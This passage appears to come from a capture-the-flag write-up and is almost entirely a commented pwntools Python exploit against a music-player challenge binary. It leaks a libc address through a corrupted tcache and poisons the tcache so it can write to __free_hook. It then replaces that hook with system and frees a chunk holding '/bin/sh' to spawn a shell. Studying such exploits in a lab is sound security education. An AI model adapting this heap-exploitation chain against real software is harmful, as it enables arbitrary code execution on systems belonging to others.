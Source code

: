 ```python
p.send(strtok_got_addr + fake_song * 2) # Create fake song data for songs #3 and #4 and send payload w/ strtok addr

# tcache bin 0x20  -> corrupted 
# tcache bin 0x310 -> corrupted
# tcache bin 0x3c0 -> L -> I -> G

""" Get libc Address """

play_song("2") # Trigger leak of strtok addr (no heap operation)
strtok = u64(p.readuntil("So").split(b"\n")[-2] + b'\x00\x00') # Parse out address leak
libc = ELF('./libc-2.27.so') # Load our libc
libc.address = strtok - libc.symbols['strtok'] # Subtract strtok's offset from libc base from the absolute strtok address we leaked to set the libc base address
free_hook = libc.symbols['__free_hook'] # Get the absolute addresses for __free_hook and system
system_addr = libc.symbols['system']

""" Second Heap Overflow """

# Refill the tcache bin for 0x20
remove_song("36") # H
remove_song("37") # J
remove_song("38") # K (overflows in L)

# tcache bin 0x20  -> K -> J -> H
# tcache bin 0x310 -> corrupted
# tcache bin 0x3c0 -> L -> I -> G

play_song("3") # Reads from STDIN
p.sendline("-1") # Get chunk K from tcache
chunkK = p64(0x00) * 2 # Fill chunk K nullbytes
chunkL = p64(0x00) * 1 + p64(0x3c1) + p64(free_hook) + p64(0x00) # Overwrite tcache next ptr in chunk L with __free_hook addr
p.send(chunkK + chunkL) # Send payload 

# tcache bin 0x20  -> J -> H
# tcache bin 0x310 -> corrupted
# tcache bin 0x3c0 -> L -> __free_hook

play_song("35") # Pop L from 0x3c0 tcache bin

""" Write to free hook """

play_song("4") # Read from STDIN
p.sendline("946") # Get __free_hook from tcache
p.send(p64(system_addr)) # Overwrite with addr of system

remove_song("19") # Call free() a.k.a. system() on song 19, which contains "/bin/sh"

p.interactive() # SHELL!
```
# Resources
